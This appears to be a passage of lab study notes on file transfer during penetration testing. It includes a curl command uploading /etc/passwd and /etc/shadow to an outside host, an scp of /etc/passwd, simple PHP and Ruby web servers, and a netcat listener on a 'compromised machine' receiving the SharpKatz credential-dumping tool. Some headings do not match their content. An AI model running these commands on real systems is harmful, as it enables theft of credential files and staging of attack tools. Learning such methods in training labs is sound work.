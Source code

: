 #### Linux - Upload Multiple Files

```shell-session
shakir0x00@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.

# Alternatives.
#### Linux - Creating a Web Server with PHP

```shell-session
shakir0x00@htb[/htb]$ php -S 0.0.0.0:8000

[Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started
```

#### Linux - Creating a Web Server with Ruby

```shell-session
shakir0x00@htb[/htb]$ ruby -run -ehttpd . -p8000

[2022-05-23 09:35:46] INFO  WEBrick 1.6.1
[2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
[2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```
## SCP Upload


#### File Upload using SCP

```rb
shakir0x00@htb[/htb]$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```



# WINDOWS

#### NetCat - Compromised Machine - Listening on Port 8000

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat - Compromised Machine - Listening on Port 8000
